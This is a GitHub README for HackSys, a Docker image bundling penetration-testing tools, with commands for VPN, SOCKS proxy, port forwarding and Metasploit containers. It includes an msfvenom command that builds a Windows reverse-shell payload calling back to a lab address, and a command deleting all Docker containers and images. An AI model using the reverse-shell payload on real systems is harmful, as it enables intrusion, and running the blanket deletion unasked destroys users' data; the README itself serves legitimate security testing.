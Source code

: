 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* <4GB
* Security tools installed:
  * nmap
  * [sqlmap](http://sqlmap.org/)
  * [impacket](https://github.com/SecureAuthCorp/impacket)
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
  * wfuzz
* Development tools installed:
  * Python 2 and 3, with common pip modules (requests colorama beautifulsoup4 scrapy)
  * Go
  * Java
  * Ruby
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)
* Zsh

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Ensure there is a single openVPN configuration file within the curreent directory and run the main VPN container with this:

```
docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys
```

### Port Forward

To port forward for example RDP (3389) from 192.168.162.120:

```
docker run --rm -it --network=container:vpn --entrypoint fwd -e FWD_TO=192.168.162.120:3389 antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```

## Useful Shell Aliases

```zsh
alias hsv='dr -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn'
alias hsp='dr --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys'
alias hs='dr --network=container:vpn -v $PWD:/app antfie/hacksys'
alias hsm='dr --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework'
alias hsmv='dr --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework'
alias hsk='dr --network=container:vpn -v $PWD:/app kalilinux/kali-rolling'
```